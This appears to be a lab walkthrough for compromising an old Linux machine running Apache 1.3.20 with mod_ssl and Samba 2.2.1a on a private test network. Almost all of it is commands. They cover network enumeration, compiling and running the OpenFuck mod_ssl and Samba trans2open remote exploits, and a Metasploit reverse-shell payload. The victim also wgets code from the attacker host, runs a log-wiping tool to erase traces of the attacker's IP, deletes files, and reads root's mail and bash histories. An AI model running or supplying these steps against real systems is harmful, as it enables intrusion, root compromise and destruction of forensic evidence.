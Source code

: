 
### Network Configuration
```
--------------------         ------------------
|                  |---------|     Attacker   |
|      Router      |         |  192.168.50.6  |
|                  |         ------------------
|                  |         ------------------
|   192.168.50.1    ---------|     Victim     |
|                  |         |  192.168.50.4  |
--------------------         ------------------
```

1. Enumeration
```
nmap -n -sn -vvv 192.168.50.0-255
nmap -vvv -A -oA 192.168.50.4 192.168.50.4
nmap -T4 192.168.50.4 -sV -O  
nmap -T4 -O -sV -sS 192.168.50.4

nbtscan 192.168.50.4

enum4linux 192.168.50.4  

nikto -host 192.168.50.4 -port 80,443
```
2. Exploitation

Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow

https://www.exploit-db.com/exploits/764/
```
cp /usr/share/exploitdb/exploits/unix/remote/764.c ~/OpenFuck.c
```
> http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/
```
apt-get install libssl-dev

apt-get install libssl1.0-dev  <=  IMPORTANT
```
http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c

```
cp ~/Downloads/ptrace-kmod.c /var/www/html/
service apache2 start
```
"OpenFuck.c" =>  wget http://192.168.50.6/ptrace-kmod.c
```
gcc OpenFuck.c -o exploit -lcrypto
```
Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
```
./exploit | grep "1.3.20"

./exploit 0x6a 192.168.50.4 443
./exploit 0x6b 192.168.50.4 443 -c 50

id

cat /var/mail/root
```
-------
```
use auxiliary/scanner/smb/smb_version
```
(Samba 2.2.1a)

Google for “Samba 2.2.1a vulnerability”

https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open
```
use exploit/linux/samba/trans2open
set payload generic/shell_reverse_tcp
```
Samba < 2.2.8 (Linux/BSD) - Remote Code Execution

https://www.exploit-db.com/exploits/10/

wget https://www.exploit-db.com/download/10.c
```
gcc 10.c -o samba

./samba

./samba -b 0 -c 192.168.50.6 192.168.50.4

uname -a && whoami
```
-------

Cleanup after pwning linux system

http://garage4hackers.com/showthread.php?t=6901

Victim
```
cd /var/log && grep -r 192.168.50.6 ./
```
Attacker

https://packetstormsecurity.com/files/31345/0x333shadow.tar.gz.html
```
cp ~/Downloads/0x333shadow.tar.gz ~
tar xvf 0x333shadow.tar.gz
cp 0x333shadow/0x333shadow.c /var/www/html/rmLogs.c
```
Victim
```
cd /tmp
wget 192.168.50.6/rmLogs.c
gcc rmLogs.c -o rmLogs -D Linux

./rmLogs

./rmLogs -a -i 192.168.50.6 -l 5 && rm -rf *

cd /var/log && grep -r 192.168.50.6 ./

locate .bash_history
cat /home/john/.bash_history
cat /root/.bash_history

uname -a && whoami
```
